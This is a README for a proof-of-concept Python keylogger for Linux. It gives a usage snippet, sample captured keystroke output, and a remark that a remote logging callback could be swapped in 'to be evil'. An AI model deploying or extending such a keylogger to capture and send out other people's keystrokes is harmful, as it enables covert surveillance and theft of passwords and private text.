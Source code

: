PyKeylogger is a proof of concept of a pure-python keylogger for linux.  It uses Xlib (so you must have an X connection!) to monitor the state of the keyboard.  Here's how you use it:

```python
import keylogger
import time

now = time.time()
done = lambda: time.time() > now + 60
def print_keys(t, modifiers, keys): print t, modifiers, keys

keylogger.log(done, print_keys)
```

This will print key events to stdout for 60 seconds.  If you wanted to be evil, instead of passing in a print callback, you could pass in a remote logging precedure.

Sample output:

    1314238512.78 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} ['a']
    1314238512.85 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} ['w']
    1314238512.91 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} ['e']
    1314238512.96 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} []
    1314238512.97 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} []
    1314238513.05 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} ['s']
    1314238513.07 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} []
    1314238513.18 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} ['o']
    1314238513.2 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} []
    1314238513.23 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} ['m']
    1314238513.31 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} []
    1314238513.34 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} ['e']
    1314238513.41 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} []
    1314238513.43 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False} []
    1314238518.52 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': True, 'right ctrl': False} []
    1314238518.69 {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': True, 'right ctrl': False} ['c']
